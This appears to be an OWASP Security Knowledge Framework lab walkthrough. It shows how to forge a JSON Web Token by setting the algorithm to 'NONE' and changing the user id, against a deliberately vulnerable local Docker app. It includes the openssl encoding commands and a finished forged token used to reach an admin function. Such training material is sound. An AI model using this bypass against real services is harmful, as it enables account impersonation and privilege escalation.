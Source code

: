 # JWT Null

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-jwt-null
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-jwt-null
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The application shows a dropdown menu from which we can choose an intro or chapters to be displayed on the client-side.

![](../../.gitbook/assets/nodejs/JWT-null/1.png)

First thing we need to do know is to do more investigation on the requests that are being made. We do this by setting up our intercepting proxy so we can gain more understanding of the application under test.

After we set up our favourite intercepting proxy we are going to look at the traffic between the server and the front-end. Enter the credentials: _username: user_ \| _password:user_

The first thing to notice is after sucessful logon, the response contains an access token.

![](../../.gitbook/assets/nodejs/JWT-null/2.png)

The image above shows the access-token contains three base64 encoded splitted with two dots \(.\) separators, which indicates it's a JSON Web Token \(JWT\):

#### Header

```javascript
{
 "alg": "HS256",
 "typ": "JWT"
}
```

#### Claims

```javascript
{
  "id": 1,
  "iat": 1641553962,
  "exp": 1641557562
}
```

#### Signature

Last encrypted part, containing the digital signature for the token..

## Exploitation

### Step 1

A potential attacker can now decode the token in [http://jwt.io](http://jwt.io) website to check its content.

![](../../.gitbook/assets/nodejs/JWT-null/3.png)

As shown in the above picture, there are 2 points which can be tampered.

- alg header: contains the information of which algorithm is being used for digital signature of the token.
- indentity: this information is used by the application to identify which user ID is currently authenticated.

How about checking if the server is blindly accepting the digital signature algorithm as stored by token. Of course, changing the signature would also change the token signature, but, what if the server accepts NONE algorithm?

The NONE algorithm means signature is not required, so the token can be tampered and will be accepted by the server.

=======

### Step 2

#### Header tampering

```javascript
{
 "alg": "NONE",
 "typ": "JWT"
}
```

Let's base64 encode the header:

```
echo -n '{"alg":"NONE","typ":"JWT"}' | openssl base64
```

![](../../.gitbook/assets/nodejs/JWT-null/4.png)

Now, let's play with the identity:

```javascript
{
  "id": 1,
  "iat": 1641553962,
  "exp": 1641557562
}
```

Let's base64 encode the identity:

```
echo -n '{"id":2,"iat":1641553962,"exp": 1641557562}' | openssl base64
```

![](../../.gitbook/assets/nodejs/JWT-null/5.png)

As the signature is not required, the new tampered JWT token will look like this:

> eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjQxNTUzOTYyLCJleHAiOiAxNjQxNTU3NTYyfQ.

\_note: Remove whitespaces to base64 encode properly. Remove any = after encoding. Make sure to add the trailing dot after the tampered identity.

### Step 2

Open the local storage tab within the browser and replace the original token:

![](../../.gitbook/assets/nodejs/JWT-null/7.png)

Now hit the _Admin_ button and check if the tampered token was accepted.

![](../../.gitbook/assets/nodejs/JWT-null/6.png)

Yes! The server accepted the tampered access-token. Can we check if there are more users available which can be impersonated?

## Additional Resources

Please refer to the JWT.io information for more information regarding JWT.

{% embed url="https://jwt.io/introduction/" %}

Also consider OWASP JWT Cheat Sheet as reference.

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html" %}

Other:

{% embed url="https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf" %}
